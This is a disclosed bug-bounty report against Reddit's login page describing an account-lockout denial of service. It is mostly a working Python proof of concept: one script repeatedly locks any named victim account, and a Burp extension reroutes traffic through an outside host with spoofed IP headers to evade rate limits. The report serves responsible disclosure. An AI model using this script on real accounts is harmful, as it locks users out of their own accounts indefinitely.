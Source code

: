 # Misconfigurated login page able to lock login action for any account without user interaction

## Report Details
- **Report ID**: 1582778
- **URL**: https://hackerone.com/reports/1582778
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-05-27T10:17:28.931Z
- **Disclosed**: 2022-06-06T23:10:51.121Z

## Reporter
- **Username**: ug0x01
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
## Summary
While observing a few things about the login feature, I found that the account was locked after a certain number of requests. Although this feature is actually added to prevent problems such as rate limit, it is open to account lock attacks by attackers.

## PoC
1. Save this code as `exploit.py`:

```
#!/bin/python3

from requests import get, post
from sys import argv
from warnings import filterwarnings
from time import sleep
from concurrent.futures import ThreadPoolExecutor

filterwarnings("ignore")

def get_creds():
    res = get("https://www.reddit.com/login/?experiment_d2x_2020ify_buttons=enabled&experiment_d2x_sso_login_link=enabled&experiment_d2x_google_sso_gis_parity=enabled&experiment_d2x_onboarding=enabled")
    
    csrf_token = res.text.split('name="csrf_token" value="')[1].split('">')[0]
    
    return res.cookies.get_dict(), csrf_token

def lock_account(account, cookie, csrf_token):
    post("https://www.reddit.com/login", cookies=cookie, proxies={"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}, data={"csrf_token": csrf_token, "otp": '', "password": "asdasdasasdasd231321d", "dest": "https://www.reddit.com", "username": account}, headers={"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://www.reddit.com", "Sec-Fetch-Dest": "empty", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Site": "same-origin", "Referer": "https://www.reddit.com/login/?experiment_d2x_2020ify_buttons=enabled&experiment_d2x_sso_login_link=enabled&experiment_d2x_google_sso_gis_parity=enabled&experiment_d2x_onboarding=enabled", "Connection": "close"}, verify=False)

cookie, csrf_token = get_creds()
    
for _ in range(14):
    ThreadPoolExecutor(max_workers=15).submit(lock_account, str(argv[1]), cookie, csrf_token)

print("Account Locked!!")
        
sleep(60)
    
while True:
    cookie, csrf_token = get_creds()
    
    for _ in range(14):
        ThreadPoolExecutor(max_workers=15).submit(lock_account, str(argv[1]), cookie, csrf_token)
        
    sleep(60)
```
2. Save this code as `helper.py`:
```
from burp import IBurpExtender
from burp import IHttpListener

import random
import socket
import struct

HOST_FROM = "www.reddit.com"
HOST_TO = "ugroon.link"

class BurpExtender(IBurpExtender, IHttpListener):
    def registerExtenderCallbacks(self, callbacks):
        self._helpers = callbacks.getHelpers()
        
        callbacks.setExtensionName("Traffic redirector")
        callbacks.registerHttpListener(self)

    def processHttpMessage(self, toolFlag, messageIsRequest, messageInfo):
        helpers = self._helpers
        if not messageIsRequest:
            return
        httpService = messageInfo.getHttpService()

        if (HOST_FROM == httpService.getHost()):
            message = helpers.bytesToString(messageInfo.getRequest())
            message = message.replace("Host: " + HOST_FROM, "Host: " + HOST_TO)
            message_array = message.split("\n")
            random_ip = socket.inet_ntoa(struct.pack('>I', random.randint(1, 0xffffffff)))
            message_array.insert(3, "X-My-X-Forwarded-For: " + random_ip)
            message = "\n".join(message_array)
            
            print(message)
            
            message = helpers.stringToBytes(message)
            messageInfo.setHttpService(self._helpers.buildHttpService(HOST_TO,httpService.getPort(),httpService.getProtocol()))

```
3. Download jython 2.7.0 (http://search.maven.org/remotecontent?filepath=org/python/jython-standalone/2.7.0/jython-standalone-2.7.0.jar)
4. Download a burp which is older than 2021 version (new versions giving too many errors)
5. Set jython 2.7.0 with `Extender > Options > Python Environment > Location of Jython standalone JAR file > jython 2.7.0 location`
6. Upload `helper.py` to extensions with `Extender >  Extensions > Burp Extensions > Add > helper.py location`
7. If you use linux, use `chmod +x exploit.py` for set permissions. But if you use windows, directly go to path and do next step
8. Run the exploit with `python3 exploit.py usernameofvictim` and that's all.
9. And for check to exploit work or not, try to login victim account on another device or change IP address and use a different browser for 0 track and you will see it's impossible to login account.

##PoC video

{F1746674}

#Suggested Solutions
To avoid issues like rate limit, use protections like captcha instead of using such protection

##Notes
1. On the login screen it says the account has been locked for 5 minutes. However, the exploit restarts the attack every 5 minutes, so victim can "never" login into the victim account (added for avoid misunderstandings)
2. If you have any questions or what you think is wrong with the report/impact, please mark it as needs more info before closing the report and let me answer your questions.

Cheers,
@h1ugroon

## Impact

Once the attacker starts the attack for the victim account, victim will never be able to login his/her account until the attacker stops the attack.

## Attachments
- recording-1653645412706.webm
